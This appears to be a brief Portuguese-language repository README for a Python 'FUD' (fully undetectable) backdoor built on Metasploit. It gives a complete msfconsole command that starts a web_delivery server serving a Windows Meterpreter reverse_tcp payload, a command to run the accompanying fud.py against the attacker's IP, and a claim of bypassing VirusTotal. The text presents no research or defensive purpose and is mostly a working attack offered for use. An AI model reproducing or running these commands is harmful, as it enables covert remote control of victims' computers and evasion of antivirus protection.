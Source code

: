 # metasploit-fud-backdoor
backdoor em python pelo metasploit 100% fud

versão do python: 3

### sudo msfconsole -q -x "use multi/script/web_delivery; set lhost SEU_IP; set lport PORTA_TCP; set SRVPORT 8080; set uripath index.php; set target 2; set payload windows/meterpreter/reverse_tcp; exploit -j; clear; clear; clear"

### python fud.py SEU_IP 8080

bypassing virus total

![](https://image.prntscr.com/image/FzbeC9FaQ3yfsJeSTgNoEg.png)
